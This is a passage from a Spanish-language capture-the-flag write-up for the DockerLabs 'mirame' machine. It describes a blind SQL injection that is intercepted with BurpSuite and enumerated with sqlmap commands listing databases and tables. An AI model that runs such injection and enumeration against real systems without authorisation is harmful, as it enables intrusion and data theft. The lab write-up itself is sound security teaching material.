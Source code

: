 ## Vulnerability Exploitation

La inyección SQL parece ser de tipo blind, por lo que la opción más rápida es utilizar SQLmap.

Primero, intercepto la consulta del panel con BurpSuite y guardo la request en un archivo ```request.txt```.

![](assets/img/dockerlabs-writeup-mirame/mirame2_1.png)

Luego, ejecuto SQLmap para identificar las bases de datos disponibles. Se detectan dos: ```infomation_schema``` y ```users```.

```terminal
/home/kali/Documents/dockerlabs/mirame:-$ sqlmap -r request.txt --dbs --dbms=mysql --batch
```

![](assets/img/dockerlabs-writeup-mirame/mirame2_2.png)

Ajusto el comando para apuntar a la base de datos ```users``` y enumero las tablas. Solo encuentro una: ```usuarios```.

```terminal
/home/kali/Documents/dockerlabs/mirame:-$ sqlmap -r request.txt -D users --tables --dbms=mysql --batch
```
